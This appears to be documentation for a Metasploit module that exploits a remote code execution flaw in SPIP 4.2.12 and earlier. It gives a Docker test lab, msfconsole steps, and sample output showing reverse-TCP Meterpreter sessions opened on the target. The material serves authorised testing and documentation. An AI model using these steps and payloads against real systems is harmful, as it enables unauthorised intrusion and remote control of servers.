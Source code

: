 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP versions up to and including 4.2.12.
The vulnerability occurs in SPIP’s templating system where it incorrectly handles user-supplied input, allowing an attacker
to inject and execute arbitrary PHP code.
This can be achieved by crafting a payload that manipulates the templating data processed by the `echappe_retour()` function,
which invokes `traitements_previsu_php_modeles_eval()`, containing an `eval()` call.

To replicate a vulnerable environment for testing:

1. Install SPIP using the provided Docker Compose configuration.
2. Use the image `ipeos/spip:4.2.12` to ensure the environment is vulnerable.
3. Verify that the SPIP instance is accessible on the local network.

### Docker Setup

Use the following Docker Compose file to set up the environment:

```yaml
version: '3.8'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=MysqlRootPassword
      - MYSQL_DATABASE=spip
      - MYSQL_USER=spip
      - MYSQL_PASSWORD=spip
    networks:
      - spip-network

  app:
    image: ipeos/spip:4.2.12
    restart: always
    depends_on:
      - db
    environment:
      - SPIP_AUTO_INSTALL=1
      - SPIP_DB_SERVER=db
      - SPIP_DB_LOGIN=spip
      - SPIP_DB_PASS=spip
      - SPIP_DB_NAME=spip
      - SPIP_SITE_ADDRESS=http://localhost:8880
    ports:
      - 8880:80
    networks:
      - spip-network

networks:
  spip-network:
    driver: bridge
```

### Non-Docker Setup

If you prefer not to use Docker, you can manually set up SPIP with the following commands:

```bash
wget https://files.spip.net/spip/archives/spip-v4.2.12.zip
unzip spip-v4.2.12.zip
cd spip-v4.2.12
php -S 0.0.0.0:8000
```

Accessible at `http://localhost:8000`.

## Verification Steps

1. Set up a SPIP instance with the specified Docker environment.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_porte_plume_previsu_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No additional options are required for basic exploitation.

## Scenarios

### Successful Exploitation Against Local SPIP 4.2.12

**Setup**:

- Local SPIP instance with version 4.2.12.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/spip_porte_plume_previsu_rce
```
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > exploit rhosts=127.0.0.1 rport=8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] The target appears to be vulnerable. The detected SPIP version (4.2.12) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:56534) at 2024-08-19 19:43:18 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > exploit rhosts=127.0.0.1 rport=8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] The target appears to be vulnerable. The detected SPIP version (4.2.12) is vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 192.168.1.36:59106) at 2024-08-19 19:44:40 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running in the Docker environment for the exploit to work as expected.
